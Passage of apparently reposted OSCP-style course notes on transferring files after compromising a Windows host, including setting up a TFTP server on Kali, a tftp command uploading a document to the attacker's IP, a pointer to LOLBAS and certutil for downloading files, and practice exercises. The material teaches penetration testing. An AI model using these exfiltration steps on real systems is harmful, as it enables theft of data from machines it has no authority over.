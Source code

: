 
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp

• On the Windows system, we will run the tftp client with -i to specify a binary image transfer, the IP address of our Kali system, the put command to initiate an upload, and finally the filename ofthe file to upload.

C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 
3712 bytes/s


 For some incredibly interesting ways to use common Windows utilities for fileoperations, program execution, UAC bypass, and much more, see the Living OffThe Land Binaries And Scripts (LOLBAS) project,401 maintained by Oddvar Moeand several contributors, which aims to “document every binary, script, and library that can be used for [these] techniques.” For example, the certutil.exe402program can easily download arbitrary files and much more.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/45.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/46.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/47.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/48.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/49.jpg)


16.2.5.1 Exercises

(Reporting is not required for these exercises)

1.Use VBScript to transfer files in a non-interactive shell from Kali to Windows.

2.Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and viceversa.

3.For PowerShell version 3 and above, which is present by default on Windows 8.1 andWindows 10, the cmdlet Invoke-WebRequest403 was added. Try to make use of it in order toperform both upload and download requests to your Kali machine.

4.Use TFTP to transfer files from a non-interactive shell from Kali to Windows.
 Note: 
 If you encounter problems, first attempt the transfer process within an interactive shell andwatch for issues that may cause problems in a non-interactive shell.
 
 summary

16.1.2.setup ftpd server

16.1.3.non interactive to interactive changing ftp server with python 
  module
  
16.2.windows machine restrictions netcat,wget,curl not avavilable.
